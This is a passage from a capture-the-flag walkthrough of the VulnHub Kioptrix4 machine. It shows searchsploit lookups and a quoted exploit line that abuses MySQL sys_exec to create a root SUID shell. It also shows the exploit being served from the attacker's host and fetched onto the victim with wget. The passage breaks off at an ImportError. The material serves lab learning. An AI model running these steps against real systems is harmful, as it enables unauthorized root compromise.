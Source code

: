 ```bash
cPanel 10.8.x - cpwrap via MySQLAdmin Privilege Escalation                                   | exploits/linux/local/2466.pl
--------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```

Determining path to the exploit and copying it to the clipboard.
```bash
root@kali:~/vulnhub/kioptrix4# searchsploit -p 46249
  Exploit: MySQL User-Defined (Linux) (x32/x86_64) - 'sys_exec' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/46249
     Path: /usr/share/exploitdb/exploits/linux/local/46249.py
File Type: ASCII text, with very long lines, with CRLF line terminators

Copied EDB-ID #46249's path to the clipboard.
```

From the script found above, it seems like the exploit is trying to create a SUID binary:

```python
os.system('mysql -u root -p\'' + password + '\' -e "select sys_exec(\'cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh\')"')
```

### SimpleHTTPServer

Next the exploit needs to be transfered to the vicitms machine.
Serving exploit using Python’s SimpleHTTP server:
```bash
root@kali:~/vulnhub/kioptrix4# python -m SimpleHTTPServer 
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.211.129 - - [04/Sep/2019 13:08:28] "GET /46249.py HTTP/1.0" 200 –
```

Downloading the exploit to victim’s machine:
```bash
robert@Kioptrix4:/tmp$ wget 192.168.211.130:8000/46249.py
--22:30:57--  http://192.168.211.130:8000/46249.py
           => `46249.py'
Connecting to 192.168.211.130:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 31,215 (30K) [text/plain]

100%[==========================>] 31,215        --.--K/s             

22:30:57 (146.56 MB/s) - `46249.py' saved [31215/31215]
```

Privilege Escalation
--------------------

Running the exploit.
```bash
robert\@Kioptrix4:/tmp\$ python 46249.py

Traceback (most recent call last):

File "46249.py", line 35, in \<module\>

import argparse

ImportError: No module named argparse
```
